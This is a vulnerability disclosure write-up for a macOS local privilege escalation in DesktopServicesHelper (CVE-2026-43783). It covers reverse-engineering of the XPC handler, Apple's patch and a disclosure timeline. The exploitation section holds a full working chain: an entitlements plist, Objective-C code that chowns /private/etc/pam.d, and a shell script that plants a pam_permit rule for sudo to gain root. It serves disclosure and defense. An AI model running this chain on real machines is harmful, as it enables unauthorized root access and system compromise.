


CVE-2026-43783: Repair Permissions - Get Root: LPE via DesktopServicesHelper in macOS 26.5

The daemon that Finder uses to "repair" permissions on iCloud files turned out to be willing to repair permissions on anything - including system directories. In this article we'll look at how DesktopServicesHelper works under the hood and why a single XPC request was enough to get root.
Finding the target
I was looking for targets with com.apple.private.tcc.allow with the value kTCCServiceSystemPolicyAllFiles and DesktopServicesHelper caught my eye. DesktopServicesHelper lives at /System/Library/PrivateFrameworks/DesktopServicesPriv.framework/Versions/A/Resources/DesktopServicesHelper, and Finder uses it for file operations that require elevated privileges: moving files, setting permissions, working with the Trash.

Loaded the binary into IDA and went to start(). Past the usual timer and queue setup, it creates an XPC listener - the daemon's entry point. The listener registers a mach service under a specific name and starts listening for incoming connections. Any process that knows this name can connect and send a request. Here's the key part:
// get the service name
v16 = (const char *)sub_1000709F4(a1: 0);
// register the listener
mach_service = xpc_connection_create_mach_service(name: v16, targetq: nullptr, flags: 1u);
// set the incoming event handler
xpc_connection_set_event_handler(connection: mach_service, handler: &stru_1000B4B48);
xpc_connection_resume(connection: mach_service);
// start the event loop
CFRunLoopRun();The function sub_1000709F4 returns the mach service name. In start() it's called with argument 0, meaning the daemon registers under the name com.apple.DesktopServicesHelper.
const char *__fastcall sub_1000709F4(int a1)
{
if ( a1 != 0 )
return "com.apple.DesktopServicesScriptingHelper";
else
return "com.apple.DesktopServicesHelper";
}stru_1000B4B48 is a handler block (callback) that the daemon invokes for every incoming event. XPC is message-based: the client constructs a dictionary with keys and values, sends it to the daemon, and the daemon parses the contents and decides what to do. All incoming events end up in this handler. Let's look inside.

The block's invoke function is sub_100032044. On a new connection, the daemon first retrieves the client's euid and egid - effective user ID and group ID - the identifiers of the user and group under which the connecting process runs:
euid = xpc_connection_get_euid(connection: v8);
egid = xpc_connection_get_egid(connection: v8);
sub_100071268(a1: euid, a2: egid);Then it assigns a handler for incoming messages on the connection:
v15[2] = sub_10003AB2C; // block's invoke function
xpc_connection_set_event_handler(connection: v14, handler: v15);
xpc_connection_resume(connection: v14);sub_10003AB2C - this is where actual XPC requests from the client arrive. Now we need to understand how the daemon decides which requests to execute and which to reject.
Request dispatcher
sub_10003AB2C is the main dispatcher. This is where the daemon decides what to do with a request. The function is large, so let's break it down.
First, it pulls the "request" string from the message - the command name the client wants to execute:
reply = xpc_dictionary_create_reply(original: v12);
string = xpc_dictionary_get_string(xdict: v12, key: "request");
// ...
// logging: "Got Request '%{public}@'"Then the daemon retrieves the connecting process's audit token and checks whether it's running inside App Sandbox. App Sandbox is a macOS application isolation mechanism that restricts access to the file system, network, and other resources. Here's where it branches:
xpc_dictionary_get_audit_token(a1: v12, a2: buf);
qmemcpy(__p, buf, sizeof(__p));
if ( (unsigned int)sandbox_check_by_audit_token(a1: __p, a2: 0, a3: 0) != 0 )
{
// client is sandboxed - check against allowlist
if ( (sub_10003B25C(a1: &v32, a2: "Handshake") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "exit") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "SetDefaultPermissionOnHomeSubdirectories") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "MoveAsideICloudToArchiveInHome") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "RepairPermissionsForCloudItems") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "CopyClientActive") & 1) == 0
&& (sub_10003B25C(a1: &v32, a2: "DeleteItem") & 1) == 0 )
{
sub_100034250(a1: v12, a2: &v32); // not in the list - kill the daemon
}
}
else
{
// client is not sandboxed - check entitlement
*(_QWORD *)buf = sub_1000343C0(a1: v12, a2: CFSTR("com.apple.private.tcc.allow"));
v19 = (const __CFArray *)sub_10003B1E0();
v20 = v19;
if ( v19 == nullptr
|| (v35.length = CFArrayGetCount(theArray: v19),
v35.location = 0,
CFArrayContainsValue(theArray: v20, range: v35, value: CFSTR("kTCCServiceSystemPolicyAllFiles")) == 0) )
{
sub_100034250(a1: v12, a2: &v32); // no entitlement - kill the daemon
}
}If the client is sandboxed - the request name is checked against an allowlist of seven strings. If it matches - the check passes and the request goes through. If not - sub_100034250 kills the daemon.
If the client is not sandboxed - the daemon checks for the com.apple.private.tcc.allow entitlement with the value kTCCServiceSystemPolicyAllFiles. No entitlement also means death.
After passing the check, the request falls through two handler tables. First sub_10002F7C8, then sub_10002A194:
// first table (8 commands, two arguments)
v21 = sub_10002F7C8(a1: buf);
// ...
if ( v21 != 0 )
v22(a1: v12, a2: v11); // found - invoke
// second table (21 commands, three arguments)
v27 = sub_10002A194(a1: buf);
// ...
if ( v27 != nullptr )
v27(a1: v12, a2: reply, a3: v11); // found - invokeNow let's look at the handler tables. The first table (sub_10002F7C8):
__int64 __fastcall sub_10002F7C8(__int64 a1)
{
__int64 result; // x0
void **v3; // x21
void **v4; // x8
_BYTE v5[32]; // [xsp+8h] [xbp-128h] BYREF
__int64 v6; // [xsp+28h] [xbp-108h] BYREF
__int64 v7; // [xsp+48h] [xbp-E8h] BYREF
__int64 v8; // [xsp+68h] [xbp-C8h] BYREF
__int64 v9; // [xsp+88h] [xbp-A8h] BYREF
__int64 v10; // [xsp+A8h] [xbp-88h] BYREF
__int64 v11; // [xsp+C8h] [xbp-68h] BYREF
__int64 v12; // [xsp+E8h] [xbp-48h] BYREF
__int64 v13; // [xsp+108h] [xbp-28h] BYREF
if ( (atomic_load_explicit((atomic_uchar *volatile)&qword_1000BD8C8, memory_order_acquire) & 1) == 0
&& __cxa_guard_acquire(a1: &qword_1000BD8C8) != 0 )
{
sub_10002AA78(a1: (int)v5, __s: "OperationSizing");
sub_10002AA78(a1: (int)&v6, __s: "SetChildPermissions");
sub_10002AA78(a1: (int)&v7, __s: "RunTrashOperation");
sub_10002AA78(a1: (int)&v8, __s: "ChildCreateLock");
sub_10002AA78(a1: (int)&v9, __s: "RunSetRootMetadata");
sub_10002AA78(a1: (int)&v10, __s: "RunCopyMoveOperation");
sub_10002AA78(a1: (int)&v11, __s: "DeleteBackup");
sub_10002AA78(a1: (int)&v12, __s: "DeleteItem");
sub_10003BDDC(a1: &unk_1000BD8A0, a2: v5, a3: 8);
v3 = (void **)&v13;
do
{
v4 = v3;
v3 -= 4;
if ( *((char *)v4 - 9) < 0 )
operator delete(__p: *v3);
}
while ( v3 != (void **)v5 );
__cxa_guard_release(a1: &qword_1000BD8C8);
}
result = sub_10003BCF0(a1: &unk_1000BD8A0, a2: a1);
if ( result != 0 )
return *(_QWORD *)(result + 40);
return result;
}Nothing interesting here. Eight handlers (OperationSizing, SetChildPermissions, ...), all gated behind entitlement checks.
But there's a second table - v27 = sub_10002A194(a1: buf):
__int64 __fastcall sub_10002A194(__int64 a1)
{
__int64 result; // x0
void **v3; // x21
void **v4; // x8
_BYTE v5[32]; // [xsp+8h] [xbp-2C8h] BYREF
__int64 v6; // [xsp+28h] [xbp-2A8h] BYREF
__int64 v7; // [xsp+48h] [xbp-288h] BYREF
__int64 v8; // [xsp+68h] [xbp-268h] BYREF
__int64 v9; // [xsp+88h] [xbp-248h] BYREF
__int64 v10; // [xsp+A8h] [xbp-228h] BYREF
__int64 v11; // [xsp+C8h] [xbp-208h] BYREF
__int64 v12; // [xsp+E8h] [xbp-1E8h] BYREF
__int64 v13; // [xsp+108h] [xbp-1C8h] BYREF
__int64 v14; // [xsp+128h] [xbp-1A8h] BYREF
__int64 v15; // [xsp+148h] [xbp-188h] BYREF
__int64 v16; // [xsp+168h] [xbp-168h] BYREF
__int64 v17; // [xsp+188h] [xbp-148h] BYREF
__int64 v18; // [xsp+1A8h] [xbp-128h] BYREF
__int64 v19; // [xsp+1C8h] [xbp-108h] BYREF
__int64 v20; // [xsp+1E8h] [xbp-E8h] BYREF
__int64 v21; // [xsp+208h] [xbp-C8h] BYREF
__int64 v22; // [xsp+228h] [xbp-A8h] BYREF
__int64 v23; // [xsp+248h] [xbp-88h] BYREF
__int64 v24; // [xsp+268h] [xbp-68h] BYREF
__int64 v25; // [xsp+288h] [xbp-48h] BYREF
__int64 v26; // [xsp+2A8h] [xbp-28h] BYREF
if ( (atomic_load_explicit((atomic_uchar *volatile)&qword_1000BD898, memory_order_acquire) & 1) == 0
&& __cxa_guard_acquire(a1: &qword_1000BD898) != 0 )
{
sub_10002AA78(a1: (int)v5, __s: "Handshake");
sub_10002AA78(a1: (int)&v6, __s: "MoveAndRename");
sub_10002AA78(a1: (int)&v7, __s: "SetDefaultPermissionOnHomeSubdirectories");
sub_10002AA78(a1: (int)&v8, __s: "MoveAsideICloudToArchiveInHome");
sub_10002AA78(a1: (int)&v9, __s: "RepairPermissionsForCloudItems");
sub_10002AA78(a1: (int)&v10, __s: "CheckPermissionsForCloudItem");
sub_10002AA78(a1: (int)&v11, __s: "AbortResumableCopy");
sub_10002AA78(a1: (int)&v12, __s: "SetLabel");
sub_10002AA78(a1: (int)&v13, __s: "SetAppCategories");
sub_10002AA78(a1: (int)&v14, __s: "CreateIconFile");
sub_10002AA78(a1: (int)&v15, __s: "RemoveIconFile");
sub_10002AA78(a1: (int)&v16, __s: "RepairTrash");
sub_10002AA78(a1: (int)&v17, __s: "Rename");
sub_10002AA78(a1: (int)&v18, __s: "CreateFolder");
sub_10002AA78(a1: (int)&v19, __s: "CreateAlias");
sub_10002AA78(a1: (int)&v20, __s: "RemoveTrashItemsOlderThanDate");
sub_10002AA78(a1: (int)&v21, __s: "SetTags");
sub_10002AA78(a1: (int)&v22, __s: "cancel");
sub_10002AA78(a1: (int)&v23, __s: "pause");
sub_10002AA78(a1: (int)&v24, __s: "resume");
sub_10002AA78(a1: (int)&v25, __s: "exit");
sub_10003B360(a1: &unk_1000BD870, a2: v5, a3: 21);
v3 = (void **)&v26;
do
{
v4 = v3;
v3 -= 4;
if ( *((char *)v4 - 9) < 0 )
operator delete(__p: *v3);
}
while ( v3 != (void **)v5 );
__cxa_guard_release(a1: &qword_1000BD898);
}
result = sub_10003BCF0(a1: &unk_1000BD870, a2: a1);
if ( result != 0 )
return *(_QWORD *)(result + 40);
return result;
}That gives us 21 handlers. The dispatcher works as a cascade: first it looks up the request name in the first table (sub_10002F7C8, 8 commands) - these are "fire-and-forget" operations that take the XPC connection and peer (client object) but don't return a response. If not found - it searches the second table (sub_10002A194, 21 commands) - these are operations with a response, which additionally receive a reply (object for sending the result back to the client).
Almost all commands either do nothing interesting or are gated behind entitlement checks. But there's one that's open - RepairPermissionsForCloudItems. Let's find its handler. In the assembly we can see that sub_10002AA78 takes a function pointer as its third argument:
__text:000000010002A2AC MOV X2, X16
__text:000000010002A2B0 MOV X0, X20 ; int
__text:000000010002A2B4 BL sub_10002AA78
__text:000000010002A2B8 ADD X21, SP, #0x2D0+var_2C8
__text:000000010002A2BC ADD X20, X21, #0x80
__text:000000010002A2C0 ADRL X1, aRepairpermissi ; "RepairPermissionsForCloudItems"
__text:000000010002A2C8 ADRL X16, sub_10002D744
__text:000000010002A2D0 PACIZA X16RepairPermissionsForCloudItems -> sub_10002D744. We've found the only handler accessible from the sandbox without additional entitlements. Now let's see what it actually does with the data it receives.
Analyzing the RepairPermissionsForCloudItems handler
The handler sub_10002D744 does three things. First, it extracts the "Paths" key from the XPC message and deserializes it via NSKeyedUnarchiver into a string array:
v8 = objc_claimAutoreleasedReturnValue((id)sub_100028810(a1: v5, a2: "Paths"));
v9 = objc_claimAutoreleasedReturnValue(
+[NSKeyedUnarchiver unarchivedArrayOfObjectsOfClass:fromData:error:](
&OBJC_CLASS___NSKeyedUnarchiver,
"unarchivedArrayOfObjectsOfClass:fromData:error:",
objc_opt_class(a1: &OBJC_CLASS___NSString),
v8,
&v25));Then it passes each path to sub_100029CE4 via sub_100034B5C to determine whether "repair" is needed. For paths that need repair, it calls sub_10002A11C:
sub_100034B5C(a1: v22, a2: v24, a3: sub_100029CE4);
if ( v22[0] != v22[1] )
sub_10002A11C(a1: v5, a2: v22);There is no path validation: whatever is passed in gets processed. The function sub_100029CE4 checks whether "repair" is needed. Here's the key logic:
v3 = lstat(a1: v2, a2: &v28);
// ...
if ( (v28.st_mode & 0xF000) != 0x4000 && v28.st_nlink > 1u )
return false; // not a directory + hardlinks > 1 - skip
v6 = sub_100071288(a1: v4); // get caller's UID
if ( v28.st_uid != v6 )
return true; // owner doesn't match - repair neededThe check logic:
lstat(path)
|
+- not a directory && hardlinks > 1 ?
| +- yes -> false (skip)
|
+- st_uid == our UID ?
| +- yes -> false (owner matches, no repair needed)
| +- no -> true (repair needed)
|
+- directory ?
+- yes -> recurse into contentsFor paths that need repair, sub_10002A11C is called - a simple loop that iterates over the results and calls sub_100029440 for each one. Here's the key logic of sub_100029440:
fd = open(path, 0x200000);
fstat(fd, &st);
// only check: not a directory + hardlinks >= 2 - skip
if ( (st.st_mode & 0xF000) != 0x4000 && st.st_nlink >= 2u )
return close(fd);
// get caller's UID (ours - 501)
caller_uid = sub_100071288();
// owner doesn't match - change to ours
if ( st.st_uid != caller_uid )
fchown(fd, caller_uid, st.st_gid);
close(fd);
// if directory - recursively call itself for each item
if ( (st.st_mode & 0xF000) == 0x4000 )
sub_100029440(child_path);That's it. The daemon calls fchown on whatever path is provided, without checking that it resides in ~/Library/Mobile Documents/ or any iCloud container. And if the path is a directory, the function recursively traverses all its contents and calls fchown on every item.
Read that again. Let it sink in. Pass any directory - and you own all its contents.
Summary
The full chain from XPC request to fchown:
One XPC request - and any file or directory is ours.
Exploitation
So we have an arbitrary chown on any path on disk. Now we just need to turn it into root.
On macOS, authentication goes through PAM. The configs are in /private/etc/pam.d/ - one file per program that checks passwords: sudo, login, su, etc. The directory is owned by root:wheel. So we can take ownership of it with our chown. After that we're free to create the file /private/etc/pam.d/sudo_local with a single line:
auth sufficient pam_permit.sopam_permit.so is a PAM module that always returns success. sudo checks sudo_local before the main config. Result: sudo no longer asks for a password.
But there's a catch. You can't just connect to com.apple.DesktopServicesHelper from the sandbox: the sandbox blocks mach-lookup to this service by default. But the daemon itself checks that the calling process is sandboxed - and only then lets RepairPermissionsForCloudItems through without an entitlement check. The irony: the sandbox here isn't a defense - it's a pass.
To get mach-lookup past the sandbox, we need the com.apple.security.temporary-exception.mach-lookup.global-name entitlement. Here's the minimal entitlement set for the PoC application:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>com.apple.security.app-sandbox</key>
<true/>
<key>com.apple.security.temporary-exception.mach-lookup.global-name</key>
<array>
<string>com.apple.DesktopServicesHelper</string>
</array>
</dict>
</plist>Two entitlements.
com.apple.security.app-sandbox - enables the sandbox (without it the daemon would require a TCC entitlement and reject us).
com.apple.security.temporary-exception.mach-lookup.global-name - a sandbox exception entitlement.
The sandbox doesn't allow connections to all mach services, and com.apple.DesktopServicesHelper isn't on the allowed list. This key adds an exception for a specific service. That's all we need. The code goes straight into ViewController.m. The key method is chownPath:, which connects to the daemon and sends the request:
- (void)chownPath:(NSString *)path
{
xpc_connection_t conn = xpc_connection_create_mach_service(
"com.apple.DesktopServicesHelper", NULL, 0);
if (!conn) return;
xpc_connection_set_event_handler(conn, ^(xpc_object_t event) {});
xpc_connection_resume(conn);
NSData *archived = [NSKeyedArchiver archivedDataWithRootObject:@[ path ]
requiringSecureCoding:YES
error:nil];
xpc_object_t msg = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(msg, "request", "RepairPermissionsForCloudItems");
xpc_dictionary_set_data(msg, "Paths", archived.bytes, archived.length);
xpc_connection_send_message_with_reply_sync(conn, msg);
}We connect to com.apple.DesktopServicesHelper, archive the path into an NSArray via NSKeyedArchiver (as the daemon expects), construct an XPC dictionary with the key "request" = "RepairPermissionsForCloudItems", and send it.
On app launch, we call chownPath: on /private/etc/pam.d and check the result:
- (void)runExploit
{
[self chownPath:@"/private/etc/pam.d"];
usleep(200000);
struct stat st;
if (lstat("/private/etc/pam.d", &st) != 0) return;
if (st.st_uid == getuid())
NSLog(@"ok");
}200ms wait, then lstat - if the owner changed to our UID, the chown succeeded.
Now let's put it all together. The shell script launches the PoC application, waits for the daemon to do its work, verifies the chown succeeded, writes the PAM rule, and gets root:
#!/bin/sh
set -e
PAM_DIR="/private/etc/pam.d"
SUDO_LOCAL="$PAM_DIR/sudo_local"
# our application
./poc.app/Contents/MacOS/poc &
POC_PID=$!
sleep 4
kill $POC_PID 2>/dev/null || true
wait $POC_PID 2>/dev/null || true
if [ "$(stat -f %u "$PAM_DIR")" != "$(id -u)" ]; then
echo "chown failed"
exit 1
fi
echo 'auth sufficient pam_permit.so' > "$SUDO_LOCAL"
chmod 644 "$SUDO_LOCAL"
# root
sudo id
sudo suApple's patch
Apple added an entitlement check at the very beginning of the RepairPermissionsForCloudItems handler:
if ( (sub_100034110(a1: v5,
a2: CFSTR("com.apple.private.desktopservices.cloud-repair-perm")) & 1) == 0 )
{
sub_100034250(a1: v5, a2: v22); // no entitlement - kill the daemon
}Now only processes with the private entitlement com.apple.private.desktopservices.cloud-repair-perm can invoke RepairPermissionsForCloudItems. Without it - sub_100034250 kills the daemon. The rest of the function's logic remains unchanged.
Timeline
| Date | Event |
|---|---|
| 05/09/2026 | Report submitted to Apple Product Security |
| 05/11/2026 | Apple moved the report to review |
| 05/13/2026 | Apple reproduced the bug, scheduled fix for fall |
| 05/26/2026 | Patch in macOS 26.6 beta 1 |
| 08/11/2026 | Assigned CVE-2026-43783 |
Thanks for reading, happy bug hunting!